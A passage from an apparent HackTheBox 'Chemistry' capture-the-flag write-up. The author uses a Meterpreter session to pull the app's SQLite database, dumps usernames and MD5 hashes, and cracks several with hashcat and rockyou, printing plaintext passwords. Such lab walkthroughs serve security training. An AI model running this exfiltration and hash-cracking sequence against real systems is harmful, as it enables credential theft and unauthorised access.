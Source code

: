 Let's exfiltrate it to dig deeper locally.
```
meterpreter > download /home/app/instance/database.db
[*] Downloading: /home/app/instance/database.db -> /home/magicrc/attack/HTB Chemistry/database.db
[*] Downloaded 20.00 KiB of 20.00 KiB (100.0%): /home/app/instance/database.db -> /home/magicrc/attack/HTB Chemistry/database.db
[*] Completed  : /home/app/instance/database.db -> /home/magicrc/attack/HTB Chemistry/database.db
```

We could see that it (as expected) is `SQLite 3.x` file.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ file database.db
database.db: SQLite 3.x database, last written using SQLite version 3031001, file counter 102, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 102
```

Let's explore it `sqlite3`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ sqlite3 database.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .table
structure  user     
sqlite> SELECT username, password FROM user;
admin|2861debaf8d99436a10ed6f75a252abf
app|197865e46b878d9e74a0346b6d59886a
rosa|63ed86ee9f624c7b14f1d4f43dc251a5
robert|02fcf7cfc10adc37959fb21f06c6b467
jobert|3dec299e06f7ed187bac06bd3b670ab2
carlos|9ad48828b0955513f7cf0f7f6510c8f8
peter|6845c17d298d95aa942127bdad2ceb9b
victoria|c3601ad2286a4293868ec2a4bc606ba3
tania|a4aa55e816205dc0389591c9f82f43bb
eusebio|6cad48078d0241cca9a7b322ecd073b3
gelacia|4af70c80b68267012ecdac9a7e916d18
fabian|4e5d71f53fdd2eabdbabb233113b5dc0
axel|9347f9724ca083b17e39555c36fd9007
kristel|6896ba7b11a62cacffbdaded457c6d92
user|1a1dc91c907325c69271ddf0c944bc72
```

We have found (MD5) hashed credentials, among which we could see `rosa`. Let's use `hashcat` for dictionary attack.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ sqlite3 database.db "SELECT username, password FROM user" | sed 's/|/:/g' > chemistry.hash &&\
hashcat -m 0 -a 0 --username --quiet chemistry.hash /usr/share/wordlists/rockyou.txt > /dev/null;
hashcat -m 0 --username --show chemistry.hash | awk -F: '{print $1 ":" $3}'
rosa:*****************
carlos:carlos123
peter:peterparker
victoria:victoria123
user:pass
```
